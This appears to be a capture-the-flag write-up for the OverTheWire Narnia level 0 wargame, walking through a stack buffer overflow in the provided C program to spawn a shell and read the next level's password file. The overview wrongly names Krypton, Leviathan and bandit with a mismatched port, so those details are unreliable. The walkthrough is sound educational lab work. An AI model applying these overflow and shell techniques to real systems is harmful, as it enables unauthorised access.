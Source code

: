 # Krypton 1


## Overview

-----------------
On the OverTheWire/Leviathan website, we are told how connecting to the bandit server as a specific user works.

Each user corresponds to a different level:
- Krypton0 -> Level 0
- Krypton1 -> Level 1
- ...
- Krypton33 -> Level 33

Each level is hiding a flag, which is used as the password for the following level. Meaning, one must solve `Level n` to play `Level n+1`.

We always start out connecting to the `krypton.labs.overthewire.org` server on `port 2231` for each level.
Again, the users on the server specifies the level. Each starting point is the same:

``` text
➜  ~  ssh narnia0@narnia.labs.overthewire.org -p 2226
                                                _       
                         _ __   __ _ _ __ _ __ (_) __ _ 
                        | '_ \ / _` | '__| '_ \| |/ _` |
                        | | | | (_| | |  | | | | | (_| |
                        |_| |_|\__,_|_|  |_| |_|_|\__,_|
                                                        

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

narnia0@narnia.labs.overthewire.org's password: 
```

The password will always be the flag of the previous level. With the exception of Level 0, where the password is `narnia0`.


## Connecting

--------------

We can establish a connection with the server via ssh, and using the password `narnia0`:

``` text
➜  ~  ssh narnia0@narnia.labs.overthewire.org -p 2226
                                                _       
                         _ __   __ _ _ __ _ __ (_) __ _ 
                        | '_ \ / _` | '__| '_ \| |/ _` |
                        | | | | (_| | |  | | | | | (_| |
                        |_| |_|\__,_|_|  |_| |_|_|\__,_|
                                                        

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

narnia0@narnia.labs.overthewire.org's password: narnia0

      ,----..            ,----,          .---.
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' '
  |   :  | ; | ' ;    |.';  ; ;   \  \;      :
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ;
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"
     \   \ .'        ;   |.'       \   \ ;
  www. `---` ver     '---' he       '---" ire.org


Welcome to OverTheWire!

<snip>

  Enjoy your stay!

narnia0@gibson:~$ 
```

## Looking Around

--------------
We first start by looking around the home directory, as we have no idea what is going on. We will use the command `ls`,
which allows us to `list` the content of the current directory (or specified directory).


``` text
narnia0@gibson:~$
narnia0@gibson:~$ cd /narnia
narnia0@gibson:/narnia$ ls
narnia0    narnia1    narnia2    narnia3    narnia4    narnia5    narnia6    narnia7    narnia8
narnia0.c  narnia1.c  narnia2.c  narnia3.c  narnia4.c  narnia5.c  narnia6.c  narnia7.c  narnia8.c
narnia0@gibson:/narnia$ cat narnia0.c
<snip>
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

Alright. We are dealing with a buffer overflow attack here. 

We are loading up the Stack as a "first in first out" type loading. Meaning:


| Stack                |
|----------------------|
|  char buf[20];       |
| long val=0x41414141; |

This means, if we go past the 19 character (as C has a `\x00` to signal end of array) we are overwriting the value of
the `long val=0x41414141;`.

``` text
narnia0@gibson:/narnia$ echo -en "aaaaaaaaaaaaaaaaaaaa" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaa
val: 0x41414100
WAY OFF!!!!
```
Notice how the value of `val` has changed, as we have pushed `20 a's` into the stack, causing the buffer to overflow. 

We can now add hex to the `"aaaa..."` string to push those into the value of `val`. 

#### Note

The first thing to clarify is that endianness is a hardware attribute, not a software/OS attribute, 
so WinXP and Linux are not big-endian or little endian, but rather the hardware on which they run is 
either big-endian or little endian.

-----------------------------

Therefore, we must test whether the hardware is using little endian or big endian for their hex notation. 

Let's check by just writing `\xde\xad\xbe\xef` at the end of the `aaaa...`:

``` text
narnia0@gibson:/narnia$ echo -en "aaaaaaaaaaaaaaaaaaaa\xde\xad\xbe\xef" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaޭ??
val: 0xefbeadde
WAY OFF!!!!
```

As we can see, the `\xde\xad\xbe\xef` was mirrored, therefore, to mirror it back, we can just use the `val: 0xefbeadde`
line of the previous output and just add the `\x` to the chars.

``` text
narnia0@gibson:/narnia$ echo -en "aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ?
val: 0xdeadbeef
```

Boom We got the correct value, but nothing happened. This is because when we pipe an input into the program, the program
reads from the `stdin`, but doesn't attach a terminal in the process. (Which makes sense because we are running the program "isolated"
and just giving it the `stdout` from the `echo` command as the `stdin`.) Therefore, the `system("/bin/sh")` line gets called,
but because there is no terminal attached to the process, `system("/bin/sh")` doesn't do anything.

> When we pipe input into a program, the program does read from `stdin`, but it's a **non-interactive** `stdin`.

Well this is a bummer. How do we fight this? 

We can try to use `cat`, as `cat` by itself simply echoes whatever is passed to it. Example:

``` text
narnia0@gibson:/narnia$ cat
hello
hello
narnia
narnia
exit()
exit()
exit
exit
^C
narnia0@gibson:/narnia$ 
```

This means, we can create an artificial *terminal* by passing `cat` as a new command. [Magic Cat](../extras/magic_cat.md)

``` text
narnia0@gibson:/narnia$ ( echo -en "aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde"; cat ) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ?
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
eaa6AjYMBB
exit
^C  
narnia0@gibson:/narnia$ 
```

BOOM we got a shell AND the flag.

